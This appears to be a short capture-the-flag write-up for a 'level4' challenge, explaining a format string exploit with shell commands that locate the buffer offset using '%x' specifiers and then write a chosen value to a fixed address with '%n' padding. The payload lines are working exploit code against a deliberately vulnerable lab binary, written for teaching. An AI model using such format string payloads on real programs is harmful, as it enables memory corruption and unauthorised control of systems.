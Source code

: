 We can write in a buffer that will be printed with `printf`, and we know about format string exploit. \
Here are the first few steps to exploit a format string outside of gdb:
```shell
$ # find where our buffer is written in memory:
$ python -c 'print "AAAA " + "%x " * 15' | ./level4
AAAAb7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520
$ # so we see here our A's written at location 12.

$ # we know we need to write '16930116' at address '0x8049810', and we can use printf's padding and the `%n` modifier to write how many bytes we want to this address:
$ python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' | ./level4
                    |_ write 4b (addr)   |_ write 16930112 bytes
...
...
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

